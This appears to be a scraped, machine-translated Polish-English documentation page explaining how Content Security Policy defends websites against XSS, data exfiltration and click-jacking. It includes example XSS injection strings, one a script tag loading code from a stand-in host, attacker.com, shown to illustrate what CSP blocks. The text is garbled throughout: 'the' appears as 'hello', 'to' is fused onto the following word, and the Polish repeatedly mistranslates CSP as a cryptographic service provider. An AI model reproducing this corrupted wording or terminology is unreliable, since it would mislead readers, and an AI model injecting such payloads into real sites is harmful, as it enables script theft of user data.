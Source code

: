 | <span data-ttu-id="bf481-153">**Kroki**</span><span class="sxs-lookup"><span data-stu-id="bf481-153">**Steps**</span></span> | <p><span data-ttu-id="bf481-154">Zasady zabezpieczeń zawartości (CSP) jest obrony zabezpieczeń mechanizm zabezpieczeń, W3C standard, który umożliwia formant toohave właściciele aplikacji sieci web na zawartość hello osadzone w lokacji.</span><span class="sxs-lookup"><span data-stu-id="bf481-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="bf481-155">Dostawca usług Kryptograficznych jest dodawana jako nagłówka odpowiedzi HTTP na powitania serwera sieci web i są wymuszane na powitania po stronie klienta przez przeglądarki.</span><span class="sxs-lookup"><span data-stu-id="bf481-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="bf481-156">Jest zasady na podstawie listy dozwolonych — witryny sieci Web mogą zadeklarować zestaw zaufanych domen, z którego zawartość, takich jak JavaScript może zostać załadowany.</span><span class="sxs-lookup"><span data-stu-id="bf481-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="bf481-157">Dostawcy usług Kryptograficznych zapewnia następujące korzyści w zakresie zabezpieczeń hello:</span><span class="sxs-lookup"><span data-stu-id="bf481-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="bf481-158">**Ochrona przed XSS:** Jeśli strona jest narażony tooXSS, osoba atakująca może wykorzystać go w sposób 2:</span><span class="sxs-lookup"><span data-stu-id="bf481-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="bf481-159">Wstaw `<script>malicious code</script>`.</span><span class="sxs-lookup"><span data-stu-id="bf481-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="bf481-160">Lukę nie będą działać ze względu na tooCSP Base ograniczeń-1</span><span class="sxs-lookup"><span data-stu-id="bf481-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="bf481-161">Wstaw `<script src=”http://attacker.com/maliciousCode.js”/>`.</span><span class="sxs-lookup"><span data-stu-id="bf481-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="bf481-162">Lukę nie będzie działać, ponieważ nie będzie hello domeny kontrolowane przez osobę atakującą w dostawcy usług Kryptograficznych w dozwolonych domen</span><span class="sxs-lookup"><span data-stu-id="bf481-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="bf481-163">**Kontrolę nad danych exfiltration:** Jeśli żadnych złośliwej zawartości sieci Web próbuje tooconnect tooan zewnętrznej witryny sieci Web i kradzieży danych, hello połączenie zostanie przerwane przez dostawcy usług Kryptograficznych.</span><span class="sxs-lookup"><span data-stu-id="bf481-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="bf481-164">Wynika to z faktu hello docelowej domenie nie będzie dozwolonych dostawcy usług chmury</span><span class="sxs-lookup"><span data-stu-id="bf481-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="bf481-165">**Obrony przed miejsca kliknij:** miejsca kliknij to technika ataku przy użyciu której atakujący dokonuje można ramki oryginalnego witryny sieci Web i wymusić tooclick użytkowników na elementy interfejsu użytkownika.</span><span class="sxs-lookup"><span data-stu-id="bf481-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="bf481-166">Obecnie obrony przed miejsca kliknij osiągnięte przez skonfigurowanie odpowiedzi nagłówka X-Frame-Options.</span><span class="sxs-lookup"><span data-stu-id="bf481-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="bf481-167">Nie wszystkie przeglądarki przestrzegać tego nagłówka i przechodzi do przodu dostawcy usług Kryptograficznych będzie toodefend standardowy sposób dla miejsca kliknij</span><span class="sxs-lookup"><span data-stu-id="bf481-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="bf481-168">**Raportowanie w czasie rzeczywistym ataku:** w przypadku ataku polegającego na iniekcji w witrynie sieci Web z obsługą dostawcy usług Kryptograficznych, przeglądarek automatycznie wyzwoli punktu końcowego powiadomienia tooan skonfigurowane na serwerze sieci Web hello.</span><span class="sxs-lookup"><span data-stu-id="bf481-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="bf481-169">Dzięki temu dostawca usług Kryptograficznych służy jako system ostrzeżenie w czasie rzeczywistym.</span><span class="sxs-lookup"><span data-stu-id="bf481-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="bf481-170">Przykład</span><span class="sxs-lookup"><span data-stu-id="bf481-170">Example</span></span>